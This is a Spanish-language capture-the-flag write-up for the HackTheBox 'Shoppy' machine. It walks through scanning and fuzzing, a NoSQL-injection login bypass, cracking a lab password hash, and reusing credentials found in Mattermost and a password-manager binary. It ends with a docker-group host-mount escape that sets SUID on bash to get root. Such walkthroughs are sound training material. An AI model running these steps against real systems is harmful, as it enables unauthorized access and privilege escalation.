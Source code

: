 ```yaml
---
title: HackTheBox - Shoppy
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'NoSQL Injection', 'Cracking Password', 'Information Leakage', 'Docker Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Shoppy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Shoppy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackTheBox.

Técnicas usadas: **NoSQL Injection, Cracking Password, Information Leakage, Docker Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Shoppy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Shoppy/02-versions.png)

* Añadimos el host al fichero /etc/hosts

c. La página web no tiene información relevante, por lo que haremos un fuzzing de directorios y de subdominios

```bash
❯ gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt

**Output**
```bash
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]


❯ wfuzz -c -t 100 --hc=404 --hh=169 -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```


* El panel de **login** es vulnerable a inyección [No SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

    ![](/assets/images/HTB/Easy/Shoppy/03-nosql.png)

* Una vez en el sistema, podemos buscar usuario en el sistema, aquí también existe una inyección NOSQL y podremos descargar un fichero en el que se representará la información de todos los usuarios

    ![](/assets/images/HTB/Easy/Shoppy/04-data.png)

d. La clave que podemos crackear es la del usuario **josh**

```bash
❯ dcode 6ebcea65320589ca4f2f1ce039975995
<SNIP>
[+] Cracked MD5 Hash : remembermethisway
```

* Este usuario y contraseña son válidos para `mattermost.shoppy.htb`, aquí veremos credenciales válidas para SSH

    ![](/assets/images/HTB/Easy/Shoppy/05-creds.png)

### Escalada de Privilegios 💹

a. Listamos nuestro privilegios a nivel de sudoers

```bash
jaeger@shoppy:/home/deploy$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!

    (deploy) /home/deploy/password-manager
```

* Si le hacemos un cat a este binario, podremos ver la contraseña

    ```bash
    jaeger@shoppy:/home/deploy$ cat password-manager
    <SNIP>
    password: Sample
    <SNIP>
    ```

b. Ahora tendremos credenciales válidas para el usuario **deploy**

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: Deploying@pp!
$ bash  
deploy@shoppy:~$
```

c. Vemos los grupos de los que somos miembros

```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

* Ejecutamos un contenedor con una montura el sistema host en el directorio `/mnt` del contenedor

    ```bash
    deploy@shoppy:~$ docker run -v /:/mnt/ --rm -it alpine chroot /mnt sh
    # chmod +s /bin/bash
    # exit
    deploy@shoppy:~$ bash -p
    bash-5.1# whoami
    root
    ```

